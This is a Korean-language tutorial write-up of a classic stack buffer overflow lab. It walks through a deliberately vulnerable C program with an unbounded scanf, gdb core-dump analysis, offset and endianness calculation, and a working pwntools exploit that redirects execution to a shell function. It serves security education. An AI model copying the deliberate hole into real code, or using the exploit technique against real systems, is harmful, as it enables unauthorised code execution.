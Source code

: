 ### 실습 코드

```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};
  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];
  
  init();
  printf("Input: ");
  scanf("%s", buf);
  
  return 0;
}
```

<br>

---

<br>

### 1. 분석

#

#### 취약점 분석

`main` 함수에서 `scanf("%s", buf)` 를 보면 입력 길이에 제한 없이 입력을 받고 있습니다. 그래서 오버플로우 공격이 가능합니다.

크기가 0x28 바이트인 버퍼에 입력을 받고 있기 때문에, 0x28 바이트 이상의 데이터를 입력하면 버퍼 오버플로우를 발생시켜서 `main` 함수의 반환 주소를 덮을 수 있습니다.

C++의 표준함수 중 취약한 함수에는 대표적으로 `strcpy, strcat, sprintf, scanf` 등이 있습니다.

<br>

#### 트리거

발견한 취약점을 확인하는 행위

#

`"A"` 를 5개 입력해보면

```bash
$ ./rao
Input: AAAAA
$
```

프로그램이 정상적으로 종료되었습니다.

#

이번에는 `"A"` 를 64개 입력해보면

```bash
$ ./rao
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

전과 달리 `Segmentation fault` 라는 에러가 출력되며, 프로그램이 비정상적으로 종료되었습니다.

프로그램이 잘못된 주소에 접근했다는 의미이고 버그가 발생했다는 의미입니다.

추가적으로 `(core dumped)` 라는 메시지와 함께 코어 파일이 생성되었는데, 프로그램이 비정상적으로 종료되었을 때 디버깅을 돕기 위한 것입니다.

<br>

#### 코어 파일 분석

gdb에는 코어 파일을 분석하는 기능이 있어서 입력이 스택에 어떻게 들어갔는지 확인할 수 있고 쉘을 획득하기 위한 계획을 세울 수 있습니다.

#

 gdb로 코어 파일을 열어보면

```bash
$ gdb -c core -q
[New LWP 52]
Core was generated by `./rao'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x0000000000400729 in ?? ()
```

프로그램의 종료 원인과 어떤 주소의 명령어를 실행하다가 문제가 발생했는지 보여줍니다.

<br>

```bash
gdb-peda$ x/10s $rsp
0x7ffe429d4968: "AAAAAAAA"
0x7ffe429d4971: ""
0x7ffe429d4972: ""
0x7ffe429d4973: ""
0x7ffe429d4974: ""
0x7ffe429d4975: ""
0x7ffe429d4976: ""
0x7ffe429d4977: ""
0x7ffe429d4978: "HJ\235B\376\177"
0x7ffe429d497f: ""
```

스택을 관찰해보면 입력값 중 일부인 `AAAAAAAA` 가 `rsp` 가 가리키는 곳에 저장되어 있습니다.


<br>

---

<br>

### 2. 익스플로잇

#

#### 스택 프레임 구조 파악

스택 버퍼에 오버플로우를 발생시켜서 반환 주소를 덮으려면, 우선 해당 버퍼가 스택 프레임의 어디에 위치하는지 조사해야 합니다.

```bash
// main()
   0x000000000040070b <+35>:    lea    rax,[rbp-0x30]
   0x000000000040070f <+39>:    mov    rsi,rax
   0x0000000000400712 <+42>:    lea    rdi,[rip+0xab]        # 0x4007c4
   0x0000000000400719 <+49>:    mov    eax,0x0
   0x000000000040071e <+54>:    call   0x400570 <__isoc99_scanf@plt>
   0x0000000000400723 <+59>:    mov    eax,0x0
   
gdb-peda$ x/s 0x4007c4
0x4007c4:       "%s"
```

`main` 의 어셈블리 코드에서 `scanf` 부분을 의사 코드로 표현해보면 `scanf("%s", rbp-0x30)` 가 됩니다.

#

스택 구조를 그려서 파악을 해보면

<img src="https://velog.velcdn.com/images/silvergun8291/post/d399c0be-c3da-45dd-8e1a-eeb45f5d97a7/image.png">


`buf` 와 `return address` 사이에 `0x38` 만큼 떨어져 있기 때문에, `0x38` 만큼 쓰레기 값으로 채우고 실행하고자 하는 코드의 주소를 입력하면 실행 흐름을 조작할 수 있습니다.

<br>

#### get\_shell() 주소 확인

```c
void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};
  execve(cmd, args, NULL);
}
```

쉘을 실행시켜주는 `get_shell()` 함수가 있기 때문에, `main` 함수의 반환 주소를 `get_shell()` 함수의 주소로 덮으면 쉘을 획득할 수 있습니다.

#

gdb로 `get_shell()` 함수의 주소를 찾아보면

```bash
gdb-peda$ print get_shell
$1 = {<text variable, no debug info>} 0x4006aa <get_shell>
```

`0x4006aa` 가 `get_shell` 함수의 주소입니다.

<br>

#### 페이로드 구성

시스템 해킹에서 페이로드는 공격을 위해 전달하는 데이터를 의미합니다.

익스플로잇을 위해 페이로드를 구성해보면

<img src="https://velog.velcdn.com/images/silvergun8291/post/bc69163f-e14b-4de7-a523-22d033225886/image.png">

<br>

#### 엔디언 적용

페이로드는 적절한 엔디언을 적용해서 프로그램에 전달해야 합니다.
엔디언은 메모리에서 데이터가 정렬되는 방식으로 리틀 엔디언과 빅 엔디언이 사용됩니다.

`MSB(Most Significant Byte)` : 가장 왼쪽 바이트
`리틀 엔디언` : `MSB` 가 가장 높은 주소에 저장됩니다.
`빅 엔디언` : `MSB` 가 가장 낮은 주소에 저장됩니다.

`0x12345678`
리틀 엔디언 → `78 56 34 12`
빅 엔디언 → `12 34 56 78`

인텔 x86-64아키텍쳐는 리틀 엔디언을 사용하기 때문에, `get_shell` 함수의 주소는 `\xaa\x06\x40\x00\x00\x00\x00\x00` 로 변환해서 전달해줘야 합니다.

<br>

#### 익스플로잇

```python
from pwn import *

p = process('./rao')

payload = b"A"*0x30
payload += b"B"*0x8
payload += b"\xaa\x06\x40\x00\x00\x00\x00\x00"

p.recvuntil('Input: ')

p.sendline(payload)
p.interactive()
```

익스플로잇 코드를 짜서 공격을 해보면

#

```bash
$ python3 exploit.py
[+] Starting local process './rao': pid 629
[*] Switching to interactive mode
$
```

공격에 성공해서 쉘을 흭득하였습니다.

#

---

<br>

> [Exploit Tech: Return Address Overwrite
](https://dreamhack.io/lecture/courses/58)
